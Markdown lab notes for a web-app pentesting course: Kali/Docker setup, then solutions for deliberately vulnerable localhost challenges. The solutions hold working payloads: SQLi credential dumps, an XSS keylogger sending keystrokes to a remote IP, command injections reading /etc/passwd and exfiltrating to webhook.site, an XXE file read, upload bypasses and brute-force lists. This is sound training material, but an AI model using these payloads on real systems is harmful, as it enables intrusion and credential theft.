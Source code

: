 # Web App Lab Setup

> **Lab Requirements**
>
> - 1 Kali Linux VM
> - [pimpmykali](https://github.com/Dewalt-arch/pimpmykali/blob/master/pimpmykali.sh)
>   - (optional) [peh-web-labs.tar.gz](https://cdn.fs.teachablecdn.com/CbIyLkOuS4GUH7TNFTFg)
> - [Burp Suite](https://portswigger.net/burp/releases)

- Run `pimpmykali.sh` with `E` selection for **PEH Course WebApp Labs**

```bash
# Clone a Github repository in the "/opt" dir
cd /opt
sudo rm -rf pimpmykali/
sudo git clone https://github.com/Dewalt-arch/pimpmykali

sudo /opt/pimpmykali/pimpmykali.sh
# Run menu option E for the WebApp Labs
# The labs start automatically

# To START the labs
cd $HOME/peh/labs
./start-peh-labs.sh

# To (only) STOP the labs
sudo docker stop $(sudo docker ps -aq)

# To STOP and CLEANUP the labs
cd $HOME/peh/labs
./cleanup-peh-labs.sh
# This script removes ALL DOCKER CONTAINERS and NETWORKS!!!
```

- Run Burp Suite and open its proxy browser
- Browse to `http://localhost`
- The database can be initialized/reset at `http://localhost/init.php`

---

> # Lab solutions
>
> ## Injection0x03
>
> - sushi shop
>- product search
> - UNION select to enum other tables
>- find creds & login
> 
> ### solutions:
> 
> `Tanjyoubi Sushi Rack' UNION SELECT username,password,null,null from injection0x03_users-- -`
> 
>## XSS 0x01
> 
>`<img src=x onerror=alert(1);>`
> 
> ## XSS 0x02
> 
> `<img src=x onerror=alert(1);>`
>
> `<script>function logKey(event){fetch("http://10.10.100.146:4444/e?c=" + event.key)} document.addEventListener('keydown', logKey);</script>`
>
> ## XSS 0x03
>
> ## Command Inj 0x01
>
> `https://tcm-sec.com; whoami; asd`
>`; cat /etc/passwd; asd`
> 
>## Command Inj 0x02
> 
>`https://tcm-sec.com/& whoami& asd`
> `https://tcm-sec.com/ | sleep 10 | asd`
>
> `https://webhook.site/<id>/?`whoami``
>
> ## Command Inj 0x03
>
> `45123)^2))}';whoami;#`
> 
>## File upload 0x01
> 
>- Intercept
> - Change contents
> - Or turn off JS
>
> ## File upload 0x02
>
> - Bypass the client-side again
>- Intercept and change the content-type to image/png or image/jpeg
> 
>## File upload 0x03
> 
>- Bypass the client-side again
> - Intercept and change the content-type again
> - Use an extension that's not in the blocklist (.phtml)
> 
>## Authentication 0x01
> 
>- Brute force
> 
> ## Authentication 0x02
>
> - MFA code, switch username (code is OK for all users)
>- Or, just brute the code
> 
> ## Authentication 0x03
> 
>- Account lockout after 5 attempts, therefore brute the top 4 passwords against a username list
> 
>- common password list:
> 
>```
> password
>password123
> letmein
> manchesterunited
>```
> 
>- common usernames list: `/usr/share/seclists/Usernames/Names/names.txt`
> 
>## XXE, IDOR, capstone
> 
>### XXE 0x01
> 
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE creds [
> <!ELEMENT creds ANY >]>
> <creds><user>username</user><password>pass</password></creds>
>```
> 
>```
> <?xml version="1.0" encoding="UTF-8"?>
><!DOCTYPE creds [
> <!ELEMENT creds ANY >
><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
> <creds><user>&xxe;</user><password>pass</password></creds>
> ```
> 
> ### IDOR
> 
> `fuzz the parameter`
>
> - find an admin user (or all of the admin users)
> 
> ### Capstone
> 
> SQLi to get into admin panel
> File upload to get RCE
> 
>- XSS in the message alert
> - XSS in account names probably? need to test
>
> - brute force user accounts
>
> - SQLi on adding rating
>
> `http://localhost/capstone/coffee.php?coffee=3' or 1=1-- -`
>
> `http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20from%20users--%20-`
> 
># To do list
> 
> - file upload capstone
>- auth0x03 testing